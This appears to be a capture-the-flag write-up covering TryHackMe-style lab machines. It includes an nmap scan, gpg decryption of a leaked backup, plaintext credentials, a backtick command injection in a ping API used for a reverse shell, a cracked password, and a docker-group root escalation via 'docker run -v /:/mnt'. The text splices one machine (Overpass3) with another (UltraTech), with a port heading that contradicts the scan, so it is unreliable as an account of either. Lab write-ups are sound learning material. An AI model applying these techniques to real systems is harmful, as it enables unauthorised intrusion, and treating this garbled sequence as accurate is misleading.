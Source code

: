 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx overpass3.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV overpass3.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
Service Info: OS: Unix
```

# FTP (port 21)
we'll try to connect to the FTP server with anonymous account
```bash
$ ftp overpass3.thm                                                                                    
Connected to overpass3.thm.
220 (vsFTPd 3.0.3)
Name (overpass3.thm:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
```

it's not working, let's move to next

# HTTP (port 31331)
On the homepage, we learn there is 4 employees
```bash
Paradox - Our lead web designer, Paradox can help you create your dream website from the ground up\
Elf - Overpass' newest intern, Elf. Elf helps maintain the webservers day to day to keep your site running smoothly and quickly.\
MuirlandOracle - HTTPS and networking specialist. Muir's many years of experience and enthusiasm for networking keeps Overpass running, and your sites, online all of the time.\
NinjaJc01 - James started Overpass, and keeps the business side running. If you have pricing questions or want to discuss how Overpass can help your business, reach out to him!\
```
we found /backups/ url with a backup.zip file
in this backup file, there is a gpg file and a key file (used to decrypt the gpg
we decrypt with
```bash
gpg --import priv.key
gpg -d CustomerDetails.gpg 
```

<img width="702" alt="image" src="https://github.com/MaTe0r/tryhackme.com/assets/94843357/c9b6c294-9c53-4fca-b7f0-f66aed812f0b">

paradox:ShibesAreGreat123\
0day:OllieIsTheBestDog\
muirlandoracle:A11D0gsAreAw3s0me\

if we visit the /utech_sitemap.txt
```bash
/
/index.html
/what.html
/partners.html
```

we exploit the ping API with using the ``` ` ``` char that is interpreted as bash and not filtered\
we do a reverse shell

we found a file 
we crack the password of r00t that is : n100906

finally we found that r00t user is in docker group so we can privesc
```sh
r00t@ultratech-prod:~$ groups
r00t docker
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        4 years ago         15.8MB
```

and we are finally root on docker, we can access filesystem by browsing to /mnt
```bash
r00t@ultratech-prod:~$ docker run -v /:/mnt -it bash
bash-5.0#
```
